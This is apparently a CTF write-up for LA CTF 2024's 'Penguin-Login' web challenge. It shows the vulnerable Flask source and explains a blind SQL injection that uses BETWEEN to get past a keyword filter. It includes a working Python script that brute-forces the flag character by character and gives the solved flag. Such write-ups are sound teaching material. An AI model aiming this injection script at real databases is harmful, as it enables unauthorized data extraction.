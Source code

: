 ```yaml
---
title: Penguin-Login
date: 2024-02-18T20:05:34+02:00
description: Writeup for Penguin-Login [LA CTF 2024]
author: H0N3YP0T
tags:
- web
draft: false
---
```

___

## Challenge Description

I got tired of people leaking my password from the db so I moved it out of the db. penguin.chall.lac.tf

## Intuition

The website is really basic, it only does one request which is vulnerable to SQL injections.

![login](/images/lactf_2024/penguin.png)

![test_sqli](/images/lactf_2024/penguin_test.png)

## Solution

By looking in the source code, I notice that the original query is `"SELECT * FROM penguins WHERE name = '%s'"` but the
tricky part is that a whitelist of characters is used to filter the input. I can not use the word `LIKE` and I can use only
`a-zA-Z0-9` and `{_}` characters.

```python
with app.app_context():
    conn = get_database_connection()
    create_sql = """
        DROP TABLE IF EXISTS penguins;
        CREATE TABLE IF NOT EXISTS penguins (
            name TEXT
        )
    """
    with conn.cursor() as curr:
        curr.execute(create_sql)
        curr.execute("SELECT COUNT(*) FROM penguins")
        if curr.fetchall()[0][0] == 0:
            curr.execute("INSERT INTO penguins (name) VALUES ('peng')")
            curr.execute("INSERT INTO penguins (name) VALUES ('emperor')")
            curr.execute("INSERT INTO penguins (name) VALUES ('%s')" % (flag))
        conn.commit()


@app.post("/submit")
def submit_form():
    conn = None
    try:
        username = request.form["username"]
        conn = get_database_connection()

        assert all(c in allowed_chars for c in username), "no character for u uwu"
        assert all(
            forbidden not in username.lower() for forbidden in forbidden_strs
        ), "no word for u uwu"

        with conn.cursor() as curr:
            curr.execute("SELECT * FROM penguins WHERE name = '%s'" % username)
            result = curr.fetchall()

        if len(result):
            return "We found a penguin!!!!!", 200
        return "No penguins sadg", 201

    except Exception as e:
        return f"Error: {str(e)}", 400
```

The server does not send the query back, it only sends a message if the query was successful or not. Therefore I need to build an 
error based SQLi. I can use the `BETWEEN` query in order to simulate the `LIKE` query. The following payload is used to guess one by one character of the flag.

![payload](/images/lactf_2024/payload_penguins.png)

This payload is an example where I already know the beginning of the flag (flag{tes) and I want to find out the next character. I use the `BETWEEN` query to check if the character I will inject in the first position of the flag is correct or not. If the server returns `We found a penguin!!!!!` then the character is good otherwise it is not. 
Note that I had `z` at the end of the second part of the `BETWEEN` to check from `a` to `z` and if it is a number then I will add `9` to check from `0` to `9`.
In order to be faster I can use `fuff` to fuzz every character by using a wordlist.

![payload](/images/lactf_2024/fuff_penguins.png)

or even do it by using a script (thanks to [MettleSphee](https://github.com/MettleSphee))

```python
import requests
url = "https://penguin.chall.lac.tf/submit"

headers = {
  'Content-Type': 'application/x-www-form-urlencoded'
}
found=0
alphabet = '0123456789qwertyuiopasdfghjklzxcvbnm}'
found_string="lactf{90stgr353sn0tl7k3th30th3rdbs0w"
#print(brute[len(brute)-1])
while found_string[len(found_string)-1] != "}":
	if (found == 1):
		break
	for brute in alphabet:
		payload = 'username=\'%20UNION%20SELECT%20name%20from%20penguins%20WHERE%20NAME%20BETWEEN%20\''+found_string+brute+'\'%20AND%20\''+found_string+brute+'z'
		response = requests.request("POST", url, headers=headers, data=payload)
		match response.status_code:
			case 201:
				#print("not found yet")
				if (brute=="}"):
					found = 1
					break
			case 200:
				found_string = found_string + brute
				print(found_string)
				if (brute=="}"):
					found = 1
					break
print("Found! "+found_string)
```

![script](/images/lactf_2024/script_penguins.png)

For some reason the flag in the exploit does not contain any `_` character but the flag we have to
submit contains it between the different words which is absolutely demonic. I had a 
lot of trouble to understand the meaning of the flag and put the `_` at the right
place 😡, like, seriously am I the only one who got troubles to understand this `90stgr353sn0tl7k3th30th3rdbs0w0` ???

### Flag

`lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w0}`

